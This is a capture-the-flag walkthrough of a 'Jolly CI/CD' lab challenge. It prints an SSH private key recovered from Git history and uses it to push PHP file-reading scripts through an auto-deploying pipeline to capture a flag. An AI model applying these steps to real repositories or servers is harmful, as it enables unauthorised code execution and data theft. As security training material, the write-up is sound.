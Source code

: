 
# Objective 7: Jolly CI/CD
**Location: Elfen Ring / Elf House / Jolly CI/CD Terminal**  
**Hints (2x) from Tinsel Upatree**

This objective is about getting familiar with the benefits and risks of CI/CD pipelines.

First we clone the repository and check with ```git log``` for any "interesting" commit comments. Then we use ```git diff``` to show the delta between those.
```
git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
git log
git diff abdea0ebb21b156c01f7533cea3b895c26198c98 e19f653bde9ea3de6af21a587e41e7a909db1ca5

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
-----END OPENSSH PRIVATE KEY-----
```
Next we copy this SSH private key into ```~/.ssh/id_rsa```, so that this key is automatically used by all SSH-based GIT interactions.

```
git config --global user.email "joergen@north.pole"
git config --global user.name "joergen"
git remote set-url origin git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git
```

Next we check in a PHP script ```test.php``` to list the contents of the root directory, which will automatically be deployed into the web root:
```
<?php
if ($handle = opendir('/')) {
  while (false !== ($entry = readdir($handle))) {
    if ($entry != "." && $entry != "..") {
      echo "$entry\n";
    }
  }
  closedir($handle);
}
?>
```

```
git add test.php
git commit -m.
git push
curl http://wordpress.flag.net.internal/test.php
[...]
var
bin
mnt
.dockerenv
flag.txt
```

Next we modify the script to reveal the flag:
```
<?php
echo file_get_contents('/flag.txt');
?>
```

```
git add test.php
git commit -m.
git push
curl http://wordpress.flag.net.internal/test.php
[...]
oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT
```

**oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT**

**Achievement: Jolly CI/CD**
